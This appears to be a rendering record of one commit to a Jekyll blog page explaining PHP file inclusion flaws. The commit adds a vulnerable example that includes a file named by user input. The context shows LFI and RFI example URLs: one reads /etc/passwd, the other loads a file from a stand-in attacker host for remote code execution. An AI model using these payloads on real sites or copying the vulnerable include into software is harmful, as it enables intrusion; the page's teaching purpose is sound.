

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from php-sec.md, in a window 1280 px wide and 900 px high, scrolled down 8759 px. Shown: the whole window, without its empty margins (108-1169 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 9612 px from its top, so only the background shows below that.

Commit message:
Update php-sec.md

```diff
--- a/php-sec.md
+++ b/php-sec.md
@@ -173,4 +173,6 @@ When an attacker is exploiting RFI, he uses a remote file, while on the other si
 <code>https://localhost/app.php?file=/etc/passwd</code>
 
 On the other hand, while exploiting RFI you can upload files from a remote server which in 99% of the cases will result in RCE(Remote Code Execution). Nowadays it's very rare to see RFI in the wild, because including files from remote location is disabled in PHP by default (<code>allow_url_include</code>).
-Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention.
+Example for RFI: <code>https://localhost/app.php?file=http://attackers.website.com/somemaliciousfile</code>. You could execute malicious code from the <code>somemaliciousfile</code> file and use it for malicious intention. <br>
+
+Take this code for example: <code><?php include $_GET['file']; ?></code>
```
